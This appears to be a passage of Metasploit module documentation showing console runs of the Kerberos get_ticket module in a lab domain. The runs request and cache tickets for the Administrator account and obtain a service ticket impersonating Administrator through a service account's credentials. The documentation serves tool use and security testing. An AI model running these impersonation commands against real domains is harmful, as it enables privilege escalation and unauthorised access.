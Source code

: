 ```msf
[*] Running module against 10.0.0.24

[-] Auxiliary aborted due to failure: unknown: Error while requesting a TGT: Kerberos Error - KDC_ERR_PREAUTH_REQUIRED (25) - Additional pre-authentication required - Check the authentication-related options (PASSWORD, NTHASH or AES_KEY)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=Administrator action=GET_TGS spn=cifs/dc02.mylab.local KrbUseCachedCredentials=false password=<redacted>
[*] Running module against 10.0.0.24

[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved on /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_200958.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_849639.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > loot

Loot
====

host             service  type                 name  content                   info                                                                             path
----             -------  ----                 ----  -------                   ----                                                                             ----
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: administrator     /home/msfuser/.msf4/loot/20221104183244_default_10.0.0.24_mit.kerberos.cca_171694.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221104183244_default_10.0.0.24_mit.kerberos.cca_360960.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: administrator     /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_200958.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_849639.bin
```

TGS impersonating the Administrator account:

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=serviceA password=123456 action=GET_TGS spn=cifs/dc02.mylab.local impersonate=Administrator
[*] Running module against 10.0.0.24

[*] 10.0.0.24:88 - Getting TGS impersonating Administrator@mylab.local (SPN: cifs/dc02.mylab.local)
[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_667626.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_757041.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > loot

Loot
====

host             service  type                 name  content                   info                                                                             path
```